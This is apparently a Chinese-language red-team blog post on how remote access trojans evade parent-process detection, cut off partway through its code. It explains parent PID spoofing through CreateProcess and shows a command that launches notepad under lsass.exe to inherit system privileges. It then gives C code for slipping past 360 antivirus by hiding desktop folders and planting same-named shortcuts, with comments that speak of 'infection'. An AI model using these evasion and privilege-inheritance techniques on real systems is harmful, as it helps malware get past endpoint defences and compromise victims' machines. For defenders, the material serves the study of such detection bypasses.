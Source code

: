 ## RAT父进程检测与绕过技术（一）

监控父进程和子进程之间的关系是威胁检测团队检测恶意活动的常用技术，例如，如果powershell是子进程，而Microsoft Word是父进程，这种这种异常行为各种EDR可以很容易地检测到，这时红队可以考虑使用父进程PID欺骗作为逃避方法。
Windows API——"CreateProcess"允许用户传入一个用于分配父进程PID的参数，这意味着当恶意进程从实际执行的父进程创建时，它可以使用其他的进程作为其父进程。最初这项技术是由Didier Stevens在2009年提出，于此同时他还发布了一个用C++编写的POC(SelectMyParent），它允许用户通过指定PID来选择其父进程，"CreateProcess"函数与"STARTUPINFOEX"和"LPPROC_Thread_ATTRIBUTE_LIST"一起使用：

```
SelectMyParent.exe notepad 508
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1650933853044/8b23f4a4ed384348b82593c949b2435c.png)

PID 508对应于负责登录活动、密码更改等操作的"lsass.exe"进程，在执行完上述命令之后Notepad将在lsass.exe进程下创建

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1650933853044/175adf67982047dcb52e75854d711c52.png)

对进程属性的检查显示notepad以系统级权限运行，这是因为子进程(notepad.exe)获得了父进程(lsass.exe)的特权:

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1650933853044/9fd46da91493443998502c2ca4d4b277.png)

## RAT父进程检测与绕过技术（二）

利用快捷方式，由用户启动程序，进行绕过360数字父进程查杀，代码如下

```
int bypass_360_startup()
{
	TCHAR str_desktop[256];
	LPITEMIDLIST pidl;
	SHGetSpecialFolderLocation(NULL, CSIDL_DESKTOP, &pidl);//place the shortcut on the desktop  
	SHGetPathFromIDList(pidl, str_desktop);
 
	if (if_need_infection(str_desktop) == 0)//是否需要感染  
	{
		OutputDebugStringA("bypass_360_startup if_need_infection return");
		return 0;
	}
 
	if (set_hide_directory(str_desktop) == 0)//设置目录为隐藏属性  
	{
		OutputDebugStringA("bypass_360_startup set_hide_directory return");
		return 0;
	}
 
	if (create_link(str_desktop) == 0)//创建同名的快捷方式  
	{
		OutputDebugStringA("bypass_360_startup create_link return");
		return 0;
	}
 
	return 0;
}
 
 
int if_need_infection(TCHAR str_disk[])
{
	OutputDebugStringA("if_need_infection fun:");
	CSearchFile file;
 
	file.SearchFile(_T("."), str_disk);
 
	for (DWORD i = 0; i<file.MyVectorFile.size(); i++)
	{
```